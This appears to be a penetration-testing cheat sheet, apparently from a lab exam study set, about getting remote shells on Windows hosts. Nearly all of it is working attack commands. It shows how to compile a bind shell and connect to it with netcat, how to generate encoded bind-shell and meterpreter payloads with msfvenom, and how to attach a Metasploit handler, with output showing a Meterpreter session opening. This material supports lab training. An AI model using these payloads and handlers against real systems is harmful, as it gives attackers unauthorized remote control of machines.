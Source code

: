 ```
```
##### Compile winshell.c
```
sudo i686-w64-mingw32-gcc winshell.c -o winshell.exe
```
##### Connect Windows shell from attacker box
```
nc -nv 192.168.152.10 4444
```

#### Generating the Payload
```
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp LPORT=4444 EXITFUNC=thread -e x86/xor_dynamic -b "\x00\x09\x0a\x1a\x10" -f python
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp LPORT=4445 -e x86/shikata_ga_nai -b "\x00\x09\x0a\x1a\x10" -f python
```

#### Connect to Bind Shell from multi handler

##### Create exploit to run on windows box (creating bind shell)
Replace Lhost with the windows box you are attacking
```
msfvenom -p windows/meterpreter/bind_tcp LHOST=10.11.1.14 LPORT=40000 -f exe > bind.exe
```


##### Connect to the bind shell - Automatic
Replace RHOST with the IP of the windows host you are attacking
```
msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.14; set PAYLOAD windows/meterpreter/bind_tcp; set rhost 10.11.1.14; set lport 40000; exploit"
```

##### Connect to the bind shell - Manual
```
sudo service postgresql start
sudo msfdb init
msfconsole

msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set rhost 192.168.152.10
rhost => 192.168.152.10
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 192.168.152.10:4444
[*] Sending stage (180291 bytes) to 192.168.152.10
[*] Meterpreter session 1 opened (192.168.119.152:33035 -> 192.168.152.10:4444) at 2020-04-06 02:55:29 -0400
```
